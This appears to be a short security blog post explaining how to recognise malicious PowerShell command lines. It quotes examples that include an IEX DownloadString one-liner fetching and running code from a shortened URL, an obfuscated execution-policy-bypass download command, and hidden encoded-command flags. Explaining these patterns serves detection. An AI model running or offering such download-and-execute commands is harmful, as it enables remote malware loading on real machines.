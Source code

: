 ```yaml
---
title: "Little bit of understanding a malicious Powershell command line"
date: "2020-11-05"
layout: single
tags:
- Malicious
- Malware
- Fileless
categories:
- Blog-post
---
```


PowerShell attacks are currently the popular weapon of alternative for several of those attacks as a result of it provides variety of techniques for bypassing existing security. Not least of all, the flexibility to run directly in memory and remotely download payloads gave a lot of benefits to attacker.

Let's learn a little bit about Powershell malicious command line.

# Download
```
powershell -nop -noe -Command IEX (New-Object System.Net.WebClient).DownloadString('https://tinyurl.com/y5nupk4e')
```
Powershell command that are use to download "something" can be consider as a high potentially of a malicious attack. The command above indicate that the command is run to download strings (payload) at URL `https://tinyurl.com/y5nupk4e`. A goodware will never do such a thing to download their file using powershell command.

# Lower and upper case letters
```
Powershell -ExecUTIONPoLICy BypASs -wiNDoWSTYLe hidDeN(NEW-objecT.SYstEM.NET.wEbCLIeNt).DOWnLoADFiLE(<removed>);
```
This pattern of powershell is using alternating lower and upper case letters to execute their command. It's a high potentially of a malicious command when it come with this pattern.

# Using short flags

```
Powershell -nop -w hidden -e <encoded text>
Powershell -nop -w hidden -e <ps1 file>
```
Sometimes, this pattern of command uses by goodwares to does their job backgroundly. If the command included a long encoded text, I can 100% sure that those command is a malicious. Legit software will never use encoded text to execute it's job.

For `.ps1` part, recognizing the location of the ps1 file and its name can help us to determine it's a malicious or not. If you can get the hash of the `.ps1`, drop it into Google/Virustotal/Sandbox to futher investigation.
